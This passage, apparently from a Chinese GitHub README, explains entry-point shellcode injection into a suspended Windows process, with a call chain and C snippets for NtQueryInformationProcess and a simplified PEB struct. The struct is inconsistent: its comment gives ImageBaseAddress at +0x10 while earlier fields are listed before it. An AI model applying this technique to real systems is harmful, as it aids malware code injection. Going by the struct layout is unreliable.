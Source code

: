 ## 🛠️ 实现步骤

### 核心函数调用链

```
main()
  └─> ReadShellcodeFile()           // 读取 shellcode
  └─> CreateSuspendedProcess()      // 创建挂起进程
        └─> CreateProcessA()        // CREATE_SUSPENDED 标志 ★
  └─> NtQueryInformationProcess()   // 查询进程信息
        └─> 获取 PEB 地址
  └─> GetEntryPoint()               // 获取入口点地址 ★
        ├─> ReadProcessMemory()     // 从 PEB 读取 ImageBase
        ├─> ReadProcessMemory()     // 读取 PE 头
        └─> 解析 AddressOfEntryPoint
  └─> InjectShellcodeToEntryPoint() // 注入 shellcode ★
        ├─> NtProtectVirtualMemory() // 修改为可写
        ├─> NtWriteVirtualMemory()   // 写入 shellcode
        └─> NtProtectVirtualMemory() // 恢复保护
  └─> ResumeThread()                // 恢复线程执行 ★
```

### 关键 API 说明

#### 1. NtQueryInformationProcess - 查询进程信息
```c
NTSTATUS status = NtQueryInformationProcess(
    hProcess,                   // 进程句柄
    ProcessBasicInformation,    // 信息类型 ★
    &pbi,                       // 返回 PROCESS_BASIC_INFORMATION
    sizeof(pbi),
    &returnLength
);

// PROCESS_BASIC_INFORMATION 结构包含：
// - PebBaseAddress：PEB 地址 ★
// - UniqueProcessId：进程 PID
// - InheritedFromUniqueProcessId：父进程 PID
```

#### 2. PEB 结构（简化）
```c
// PEB 位于进程地址空间中
typedef struct _PEB {
    BYTE Reserved1[2];
    BYTE BeingDebugged;
    BYTE Reserved2[1];
    PVOID Reserved3[2];
    PVOID Ldr;
    PVOID ProcessParameters;
    PVOID Reserved4[3];
    PVOID AtlThunkSListPtr;
    PVOID Reserved5;
    ULONG Reserved6;
    PVOID Reserved7;
    ULONG Reserved8;
    ULONG AtlThunkSListPtr32;
    // ...
    PVOID ImageBaseAddress;  // +0x10 偏移 ★
} PEB, *PPEB;
```
